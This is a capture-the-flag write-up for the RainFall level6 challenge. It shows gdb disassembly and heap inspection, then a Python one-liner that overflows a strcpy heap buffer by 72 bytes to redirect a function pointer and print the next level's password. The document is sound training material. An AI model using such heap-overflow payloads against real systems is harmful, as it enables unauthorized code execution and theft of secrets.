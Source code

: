# Walkthrough

Firstly, we discovered a binary file named level6 in the home directory. Upon running it, we observed that it either requires an argument or produces a segmentation fault.

```sh
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 AAAA
Nope
```

 To investigate further, we used gdb to reverse engineer the binary and identify its functions. Two functions were found:

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f4  _init
...
0x08048454  n
0x08048468  m
0x0804847c  main
...
```

 n(), which executes a system command using the string "/bin/cat /home/user/level7/.pass" as a parameter,

```s
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>: push   ebp
   0x08048455 <+1>: mov    ebp,esp
   0x08048457 <+3>: sub    esp,0x18
   0x0804845a <+6>: mov    DWORD PTR [esp],0x80485b0
   0x08048461 <+13>: call   0x8048370 <system@plt>
   0x08048466 <+18>: leave  
   0x08048467 <+19>: ret 
```

  and m(), which uses the string "Nope" as an argument for the puts function.

```s
(gdb) disas m
Dump of assembler code for function m:
   0x08048468 <+0>: push   ebp
   0x08048469 <+1>: mov    ebp,esp
   0x0804846b <+3>: sub    esp,0x18
   0x0804846e <+6>: mov    DWORD PTR [esp],0x80485d1
   0x08048475 <+13>: call   0x8048360 <puts@plt>
   0x0804847a <+18>: leave  
   0x0804847b <+19>: ret  
```
  
   We then disassembled the main function and noticed that it allocated memory twice. The second allocation was assigned the address of the m() function `(0x8048468)`, while the first allocation used the strcpy function to copy the argument (av[1]) passed to the main function to its memory address. Eventually, the program invokes the address of the second memory allocation, which corresponds to the m() function.

```s
(gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>: push   ebp
   0x0804847d <+1>: mov    ebp,esp
   0x0804847f <+3>: and    esp,0xfffffff0
   0x08048482 <+6>: sub    esp,0x20
   0x08048485 <+9>: mov    DWORD PTR [esp],0x40
   0x0804848c <+16>: call   0x8048350 <malloc@plt>
   0x08048491 <+21>: mov    DWORD PTR [esp+0x1c],eax
   0x08048495 <+25>: mov    DWORD PTR [esp],0x4
   0x0804849c <+32>: call   0x8048350 <malloc@plt>
   0x080484a1 <+37>: mov    DWORD PTR [esp+0x18],eax
   0x080484a5 <+41>: mov    edx,0x8048468
   0x080484aa <+46>: mov    eax,DWORD PTR [esp+0x18]
   0x080484ae <+50>: mov    DWORD PTR [eax],edx
   0x080484b0 <+52>: mov    eax,DWORD PTR [ebp+0xc]
   0x080484b3 <+55>: add    eax,0x4
   0x080484b6 <+58>: mov    eax,DWORD PTR [eax]
   0x080484b8 <+60>: mov    edx,eax
   0x080484ba <+62>: mov    eax,DWORD PTR [esp+0x1c]
   0x080484be <+66>: mov    DWORD PTR [esp+0x4],edx
   0x080484c2 <+70>: mov    DWORD PTR [esp],eax
   0x080484c5 <+73>: call   0x8048340 <strcpy@plt>
   0x080484ca <+78>: mov    eax,DWORD PTR [esp+0x18]
   0x080484ce <+82>: mov    eax,DWORD PTR [eax]
   0x080484d0 <+84>: call   eax
   0x080484d2 <+86>: leave  
   0x080484d3 <+87>: ret    
```

Upon reflection, it becomes apparent that we need to modify the value of the second memory allocation to point to the n() function, which will allow us to retrieve the password from the .pass file of level 7. This can be achieved through buffer overflow, using the strcpy function to overwrite the value of the second memory allocation. To begin, we will inspect the heap to examine the memory allocations.

```c
(gdb) r AAAABBBBCCCCDDDD
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level6/level6 AAAABBBBCCCCDDDD

Breakpoint 2, 0x080484ca in main ()
(gdb) info proc mapping
process 3592
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/user/level6/level6
	 0x8049000  0x804a000     0x1000        0x0 /home/user/level6/level6
	 0x804a000  0x806b000    0x21000        0x0 [heap]
	0xb7e2b000 0xb7e2c000     0x1000        0x0 
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0 
	0xb7fdb000 0xb7fdd000     0x2000        0x0 
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) x/48wx 0x804a000
0x804a000:	0x00000000	0x00000049	0x41414141	0x42424242  // 0x804a008 is the address of the second allocation
0x804a010:	0x43434343	0x44444444	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000011
0x804a050:	0x08048468	0x00000000	0x00000000	0x00020fa9  // 0x804a050 is the address of the second allocation
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000

```


Next, we must calculate the offset between the addresses of the first and second memory allocations, and then update the value of the memory address represented by `0x804a050` to `0x08048454`.

To achieve this, we will utilize Python to create a string that we will use to overwrite the value stored in the second memory allocation.

```sh
level6@RainFall:~$ python2 -c "print(0x804a050 - 0x804a008)"
72
level6@RainFall:~$ python -c 'print("A" * 72 + "\x08\x04\x84\x54"[::-1])' > /tmp/flag
level6@RainFall:~$ ./level6 `cat /tmp/flag`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
